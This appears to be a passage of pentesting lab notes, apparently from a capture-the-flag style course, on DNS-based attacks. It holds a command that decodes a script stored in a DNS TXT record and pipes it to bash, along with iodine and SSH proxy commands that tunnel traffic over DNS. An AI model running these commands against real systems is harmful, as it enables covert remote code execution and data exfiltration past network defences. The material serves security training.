 `dig +short -t TXT <TXT record>` - Confirm the presents of the TXT record on the domain.
`dig +short -t TXT <TXT record> | tr -d "\"" | base64 -d | bash` - Execute the script from the target machine.

## DNS Tunneling

##### DNS Tunneling (TCPoverDNS)

In this technique an attacker encapsulates other protocols like HTTP over DNS using the DNS Data Exfiltration technique, which establishes a continuous communication channel.

The steps for DNS tunneling:

1. Create a new NS record that points to your machine.
2. Run iodined server from you machine.
3. Run a iodined client from a machine with access to the service you want.
4. SSH to the machine on the created network interface to create a proxy over DNS.
5. Now we can use the local IP and port as a proxy.

`sudo iodined -f -c -P <password> 10.1.1.1/24 <name server>` - Create the server.
`sudo iodine -P <password> <name server>` - Connect to the server side application.
`ssh thm@10.1.1.2 -4 -f -N -D 1080` - Start SSH connection in the background to the pivot machine.
`proxychains curl http://192.168.0.100/demo.php` or `curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php` - Get the data which goes over the DNS protocol.